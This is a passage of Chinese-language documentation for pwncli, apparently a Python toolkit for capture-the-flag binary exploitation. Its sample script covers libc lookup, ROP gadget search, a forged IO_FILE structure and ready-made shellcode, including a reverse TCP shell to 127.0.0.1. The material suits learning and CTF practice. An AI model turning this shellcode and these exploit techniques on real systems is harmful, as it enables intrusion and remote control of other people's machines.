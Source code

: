 ## 库模式
库模式，顾名思义，适用于你仅仅需要使用`pwncli`的一些函数或功能而不需要使用命令行解析参数的场景。你可以像使用其他`python`库一样使用`pwncli`，如在脚本中写下：

```python
from pwncli import *

# 这里写下脚本的其他内容
# 你可以使用pwncli中提供的使用接口
context.arch="amd64"
io = process("./pwn")

# 如你需要根据偏移搜索libc版本与其他函数
# 该功能与LibcSearcher类似，但不需要本地安装，需要联网使用
libc_box = LibcBox()
libc_box.add_symbol("system", 0x640)
libc_box.add_symbol("puts", 0x810)
libc_box.search(download_symbols=False, download_so=False, download_libs=True) # 是否下载到本地
read_offset = libc_box.dump("read")

# 根据pid获取程序的libc基地址
res = get_segment_base_addr_by_proc_maps(pid=10150)
libc_base = res['libc']
heap_base = get_current_heapbase_addr() # 仅用于本地调试

# 获取shellcode
cat_flag = ShellcodeMall.amd64.cat_flag
reverse_tcp = ShellcodeMall.amd64.reverse_tcp_connect(ip="127.0.0.1", port=10001)

# 使用一些便捷的装饰器
# 在调用该函数前休眠
@sleep_call_before(1)
def add():
    pass

# 若该函数10s内都没有运行结束，就会抛出异常
@stopwatch(10)
def del_():
  pass

# api不再使用
@unused()
def wtf():
  pass

# 搜索gadget
ropper_box = RopperBox()
ropper_box.add_file("libc", "libc.so.6", arch=RopperArchType.x86_64)
pop_rdi_ret = ropper_box.get_pop_rdi_ret()
leav_ret = ropper_box.search_gadget("leave; ret")

# 构造IO_FILE结构体
fake_file = IO_FILE_plus_struct()
fake_file.flags = 0xfbad1887
fake_file._mode = 1
fake_file.vtable = 0xdeadbeef
payload = bytes(fake_file)

# 替换payload
payload = "aaaabbbbcccc"
new_payload = payload_replace(payload, {4: "eeee"}) # aaaaeeeecccc


# 获取当前装载的libc的gadget
```